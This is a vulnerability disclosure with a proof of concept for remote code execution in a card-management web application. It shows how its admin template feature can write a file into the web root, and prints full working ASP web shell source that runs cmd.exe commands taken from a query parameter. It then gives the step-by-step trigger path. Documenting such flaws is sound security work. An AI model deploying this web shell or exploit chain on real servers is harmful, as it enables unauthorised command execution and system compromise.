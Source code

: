 ## Description

This vulnerability allows an attacker to abuse the "Output File Templates" functionality to write a malicious ASP file onto the target system instead of a standard text log file. By exploiting this flaw, the attacker can place and execute arbitrary code in the form of an ASP or ASPX file, resulting in remote code execution on the server.

## Vulnerability Location

- `https://<Host-Name>/#/Administration/TemplateManager`

## Proof of Concept

Login with any admin account and Go to `https://<Host>/#/Administration/TemplateManager` and Create a template with the following content:

```aspx
[file=C:\inetpub\wwwroot\CardWizard_<CLIENT>\shell.asp]
<%
    ' Check if a command is provided in the query string     Dim command, output
    command = Request.QueryString("cmd")
    If command <> "" Then
        ' Create a shell object to execute the command
        Dim shell
        Set shell = CreateObject("WScript.Shell")         
        ' Execute the command and capture output
        Dim exec
        Set exec = shell.Exec("cmd.exe /c " & command)
        ' Get the command's standard output         output = ""
        Do Until exec.StdOut.AtEndOfStream
            output = output & exec.StdOut.ReadLine() & vbCrLf
        Loop
        ' Display the output
        Response.Write "<pre>" & Server.HTMLEncode(output) & "</pre>"         
        ' Clean up
        Set exec = Nothing
        Set shell = Nothing     Else
        Response.Write "<h2>Please provide a command using the 'cmd' query parameter.</h2>"
    End If
%>
<!DOCTYPE html>
<html>
<head>
    <title>Command Execution in ASP</title>
</head>
<body>
    <h1>Execute Command</h1>
    <form method="get">
        Command: <input type="text" name="cmd" />
        <input type="submit" value="Execute" />
    </form>
</body>
</html>
[fileoff]
```

![[Pasted image 20250809014814.png]]

Got to `https://<Host>/#/Administration/CardFormatLinks` Assign the template to a card format:

![[Pasted image 20250809014825.png]]

Got to `https://<Host-Name>/#/CardActions/PrintSamplePINMailer` and Print card format Pin Mailer to write the file on the desk: 

![[Pasted image 20250809015003.png]] 

Now we can Access the web shell at `https://<HostName>/shell.asp`and verify the code execution on the server
![[Pasted image 20250809023803.png]]
